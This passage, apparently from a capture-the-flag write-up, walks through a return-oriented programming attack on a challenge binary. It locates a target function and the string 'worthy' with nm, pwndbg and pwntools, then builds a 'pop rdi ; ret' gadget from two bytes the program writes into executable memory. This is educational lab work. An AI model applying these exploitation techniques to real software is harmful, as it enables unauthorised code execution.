 ```bash
❯ nm challenge | grep "a_worthy_saber"
0000000000401502 T a_worthy_saber
```

#### Address of string `"worthy"`

**The GDB way**

```
pwndbg> search -t string worthy
Searching for value: b'worthy\x00'
challenge       0x4026b5 0x4600796874726f77 /* 'worthy' */
challenge       0x4026d1 0x1b00796874726f77 /* 'worthy' */
challenge       0x4036b5 0x4600796874726f77 /* 'worthy' */
challenge       0x4036d1 0x1b00796874726f77 /* 'worthy' */
```
{: file='pwndbg-output'}

**The PwnTools way**

```py
from pwn import *

e = ELF("./challenge")
worthy_addr = list(e.search(b"worthy\x00"))

print([hex(i) for i in worthy_addr])
# output: ['0x4026b5', '0x4026d1']
```

#### Address of gadget

Typically, to control `RDI`, we will look for a gadget like `pop rdi ; ret`. However, this program doesn't seem to have `pop rdi ; ret`!

```bash
❯ ROPgadget --binary challenge | grep rdi
0x0000000000401266 : or dword ptr [rdi + 0x4040b8], edi ; jmp rax  # this is useless to us
```

In order to control `RDI`, we can actually **make our own gadget**!

The two instructions `pop rdi ; ret` actually just corresponds to two bytes `\x5f\xc3`.

> You can try this for yourself using any [online x86 assembler](https://defuse.ca/online-x86-assembler.htm#disassembly) or even using pwntool's assembler.
{: .prompt-tip}

```bash
# asm is a CLI tool that comes installed with pwntools
❯ asm -c "amd64" "pop rdi ; ret"
5fc3
```

Conveniently, in our program, we are also able to write two bytes into executable memory via `width` and `length`.

```c
    *((uint8_t*)craft_saber+20) = width;
    *((uint8_t*)craft_saber+21) = length;
```


[^calling-convention]: RDI is the first argument of a function according to [calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI).